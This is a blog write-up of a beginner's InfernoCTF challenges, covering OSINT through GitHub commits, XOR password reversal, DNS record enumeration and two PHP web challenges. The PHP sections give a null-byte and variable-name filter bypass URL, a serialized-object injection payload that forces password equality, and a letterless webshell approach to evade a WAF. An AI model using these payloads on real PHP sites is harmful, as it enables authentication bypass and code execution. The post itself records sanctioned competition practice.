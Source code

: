 ```yaml
---
title: "My First Ever CTF: InfernoCTF"
author: chankruze
date: 2019-12-28 14:05:52 +05:30
categories: [CTF]
tags: [Writeups, CTF]
thumbnail: https://res.cloudinary.com/chankruze/image/upload/v1577522418/blog/CTF/InfernoCTF/logs.png
desc: "Writeup on the challenges i was able to solve*"
---
```

{: .align-center}
![featured-image](https://res.cloudinary.com/chankruze/image/upload/v1577522418/blog/CTF/InfernoCTF/logs.png)

Hi fellas, imma back again but this time i participated an online CTF which was a dream for me ;)

It was a lil frustrating because due to inexperince i wasn't able to solve 3 challenges which was really sneaky and i love them. Here i'll discuss how i approached them.

#### Discord
For this challenge the flag was available at discord server in channel `#announcement`.

```text
Flag: infernoCTF{Y0u_sh4ll_R0t_1n_h3ll_n0w}
```

#### New Developer
This was also very easy OSINT challenge.

I checked iamthedeveloper123's repositories list, latest commit by this time was in `bash2018` repo.

So i checked latest commit for which it was 1 commit ahead of parent [f6008f3d67829ad0ab19d029eec6833a196db8d8](https://github.com/iamthedeveloper123/bash2048/commit/f6008f3d67829ad0ab19d029eec6833a196db8d8).

```bash
  printf "\nYou have lost, better luck next time.\033[0m\n"
  source ../dotfiles/.bashrc2
  printf "\nYou have lost, try going to https://pastebin.com/$CODE for help!.  (And also for some secrets...) \033[0m\n"
```
Here it was confirmed that the `.bashrc2` file in other repo sets a variable `CODE`. By checking that file [here](https://github.com/iamthedeveloper123/dotfiles/blob/5365d3e99331d2b301dc7a0572afdd78b4c6e2db/.bashrc2#L83), i got value of CODE (`trpNwEPT`) which is the pastebin shorten code. And opeing [https://pastebin.com/trpNwEPT](https://pastebin.com/trpNwEPT) gives us the flag.

```text
Flag: infernoCTF{n3ver_4dd_sen5itv3_7hings_to_y0ur_publ1c_git}
```

Btw i was unable to solve the other challenge `Whistle Blower` which was related to this. I got a hint i guess for `InfoSec` twitter.

#### Where did he GO?
This was pretty straight forward.

The string flag was stored in bytes. so i added a print statement to see it and run without entering any password.

```bash
$ ./test 
Enter Password: 

# encrypted code
!!tA3rG_s1_gn1MMaRg0rP_0g

# mandir_wahi_banega

# jai_ram_ji_ki

# mandir_wahi_banega

# jai_ram_ji_ki

Don't Worry, Relax, Chill and Try harder
```

Becuse it was using `^` for encryption, i enterned flag as password to get the decrypted string:

```bash
$ ./test
Enter Password: !!tA3rG_s1_gn1MMaRg0rP_0g

# encrypted code
!!tA3rG_s1_gn1MMaRg0rP_0g

# mandir_wahi_banega
!!tA3rG_s1_gn1MMaRg0rP_0g

# jai_ram_ji_ki
g0_Pr0gRaMM1ng_1s_Gr3At!!
g0_Pr0gRaMM1ng_1s_Gr3At!!

# mandir_wahi_banega
!!tA3rG_s1_gn1MMaRg0rP_0g

# jai_ram_ji_ki
g0_Pr0gRaMM1ng_1s_Gr3At!!

Don't Worry, Relax, Chill and Try harder
```

Now print statements are removed and re compiled & run again:

```bash
$ ./test
Enter Password: g0_Pr0gRaMM1ng_1s_Gr3At!!
You Cracked it, A Hero is born
```

```text
Flag: infernoCTF{g0_Pr0gRaMM1ng_1s_Gr3At!!}
```

#### Check Again
This pissed off a lot !

The hint `Dante Nero Sparda are the true demons.` was awesome ! `DNSremon` ~ `dnsrecon`.

```bash
$ dnsrecon -d infernoctf.live
[*] Performing General Enumeration of Domain: infernoctf.live
[!] Wildcard resolution is enabled on this domain
[!] It is resolving to 104.31.82.146
[!] All queries will resolve to this address!!
[-] All nameservers failed to answer the DNSSEC query for infernoctf.live
[*] 	 SOA cora.ns.cloudflare.com 162.159.38.195
[*] 	 NS cora.ns.cloudflare.com 162.159.38.195
[*] 	 Bind Version for 162.159.38.195 20171212
[*] 	 NS cora.ns.cloudflare.com 2606:4700:50::a29f:26c3
[*] 	 Bind Version for 2606:4700:50::a29f:26c3 20171212
[*] 	 NS sid.ns.cloudflare.com 173.245.59.143
[*] 	 Bind Version for 173.245.59.143 20171212
[*] 	 NS sid.ns.cloudflare.com 2606:4700:58::adf5:3b8f
[*] 	 Bind Version for 2606:4700:58::adf5:3b8f 20171212
[-] Could not Resolve MX Records for infernoctf.live
[*] 	 A infernoctf.live 104.31.83.146
[*] 	 A infernoctf.live 104.31.82.146
[*] 	 AAAA infernoctf.live 2606:4700:30::681f:5292
[*] 	 AAAA infernoctf.live 2606:4700:30::681f:5392
[*] 	 SPF v=spf1 a mx ?all - infernoCTF{N1c3_Pl4c3_
[*] 	 TXT infernoctf.live 70_h1d3_1n_th3_Rec0rds}
[*] 	 TXT infernoctf.live ca3-d0f129e83e07442d981e6eadd9e57915
[*] Enumerating SRV Records
[-] No SRV Records Found for infernoctf.live
[+] 0 Records Found
```

```text
Flag: infernoCTF{N1c3_Pl4c3_70_h1d3_1n_th3_Rec0rds}
```

#### Dante's Personal Home Page
`preg_match("/_| /i", $check)` can be passed using `.` which transforms to `_` in php external variables. Thanks to @13k53c for pointing to the external variable docs.

It was exploiting null byte poisoning to bypass egrep which was the second check (`ereg ("^[a-zA-Z0-9]+$", $magic)`) using `\x00` which encode looks like `A%00`.

The request URL was:`http://104.197.168.32:17011/?..magic..=A%00$dark$`

```text
Flag: infernoCTF{1_gu3ss_y0ur_m4g1c_was_w4y_t00_d4rk}
```

**UPDATE**

#### Dank PHP
First i created a `test.php` file to generate searilized data for the `id`. Which looks like below snippet:

```php
<?php

class user {
  var $name;
  var $pass;
  var $secret;
}

$new_user = new user();

$new_user->name = "admin";
$new_user->pass = &$new_user->secret;

echo (serialize($new_user));

?>
```

This generates the serialized data `O:4:"user":3:{s:4:"name";s:5:"admin";s:4:"pass";N;s:6:"secret";R:3;}` for `id` param. Then i used python `urllib` to encode it properly:

```python
>>> import urllib
>>> urllib.quote('O:4:"user":3:{s:4:"name";s:5:"admin";s:4:"pass";N;s:6:"secret";R:3;}')
'O%3A4%3A%22user%22%3A3%3A%7Bs%3A4%3A%22name%22%3Bs%3A5%3A%22admin%22%3Bs%3A4%3A%22pass%22%3BN%3Bs%3A6%3A%22secret%22%3BR%3A3%3B%7D'
```

Now the second part was to bypass WAF and run `echoFlag()`. Which can be done with Php webshell without numbers and letters. And there was also a length limitation of 45 digits. So we required string length 45. Thanks to @13k53c again, he was able to discover [40 digits webshell](https://gist.github.com/mvisat/03592a5ab0743cd43c2aa65bf45fef21).

Now the `caption` param becomes `caption = "$_=" + make_letters("echoFlag") + ";$_();"`.

I was about to write my curl style here but @13k53c shared his awesome python script to do whole process and print the flag in one script. The script is [here](https://ideone.com/xxJmE0).

```text
Flag: infernoCTF{pHp_1s_a_h34dache}
```

Yeh definitely, it was a headache ;(

Thanks for reading ;) Will update it later when ingoing challenges are solved. Btw imma doing another CTF so, this is it !